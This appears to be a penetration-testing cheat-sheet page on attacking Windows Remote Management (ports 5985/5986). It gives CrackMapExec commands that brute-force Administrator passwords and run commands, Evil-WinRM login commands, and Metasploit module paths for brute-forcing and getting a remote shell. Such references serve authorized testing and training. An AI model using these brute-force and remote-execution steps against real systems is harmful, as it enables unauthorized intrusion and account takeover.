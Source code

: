 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 5985,5986 - WinRM

## CrackMapExec

is a powerful tool dubbed as _<mark style="color:green;">swiss army knife</mark>_ for pentesting Windows/Active Directory environments.

```bash
# Bruteforce WinRM creds
crackmapexec winrm $IP -u Administrator -p /wordlists/passwords.txt

# Execute command with AUTHENTICATION
crackmapexec winrm $IP -u Administrator -p password123 -x "whoami"
```

## Evil-WinRM

is a tool that was developed using Ruby. The main purpose of this tool is that an attacker can use Powershell to interact with the target through WinRM protocol.

```bash
# Login with AUTHENTICATION
evil-winrm -i $IP -u Administrator -p password123

# Login with CERTIFICATES / SSL
evil-winrm -S -c pub.key -k decrypted_priv.key -i $IP
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```bash
# Checking AUTHENTICATION methods
auxiliary/scanner/winrm/winrm_auth_methods

# Running cmd with AUTHENTICATION
auxiliary/scanner/winrm/winrm_cmd

# brute-force
auxiliary/scanner/winrm/winrm_login

# RCE (get the shell/meterpreter) AUTHENTICATION
# if you can't run it [BUG]; make sure to (set FORCE_VBS true)
exploit/windows/winrm/winrm_script_exec
```
